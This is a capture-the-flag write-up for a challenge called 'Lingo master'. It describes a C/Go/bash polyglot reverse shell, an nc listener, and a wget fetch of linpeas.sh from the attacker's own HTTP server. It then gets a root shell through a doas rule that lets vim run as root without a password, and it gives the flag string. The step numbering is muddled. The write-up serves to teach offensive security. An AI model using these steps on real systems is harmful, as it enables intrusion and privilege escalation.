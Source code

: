 # Lingo master
Proposed difficulty: medium

Jeg snakker rigtig mange sprog, snakker du mange sprog? Hvis du gerne vil lære flere sprog, så besøg [http://lingomaster.hkn](http://lingomaster.hkn)


# Solution

1) Writing polyglot file

    Write a polyglot file that is accepted as C, Go and bash (See a valid polyglot in `/sol` - Remember to change IP and port number!!!!!!). The bash part of the file will be executed, therefore the participant has to write a reverse shell.

2)  Getting a foothold

* Set up a `nc` listener to some port (5001 in this case):
    ```bash
    $ nc lv <some-available-port>
    ```

* Setting up a python HTTP server:
Firstly, make sure to [linpeas.sh](https://github.com/carlospolop/PEASS-ng/tree/master/linPEAS) in the current working directory, then run the python HTTP server:
    ```bash
    python3 -m http.server <a-new-port-number>
    ```

* Download from the self hosted HTTP server from hacked machine:
  Find your own IP address

  Download from hacked machine server:
  ```bash
  wget http://<your-ip-address>:<python-server-port-number>/linpeas.sh
  ```
    This will output a lot of information, but the linpeas shows a doas (alternative to sudo) configuration:
    ```bash
    ╔══════════╣ Checking doas.conf
    permit nopass polyglot as root cmd vim
    ``` 

    This says that the user `polyglot` can execute vim as root without a password using doas.
    
1) Vim priv esc
Simply running the following with make vim execute a shell as root:

    `doas vim -c ':!/bin/sh'`

8) Get the flag
    ```bash
    $ cat flag.txt
    cat flag.txt
    DDC{foreigner_speaks_fluent_mandarin_and_shocks_everyone}
    ```


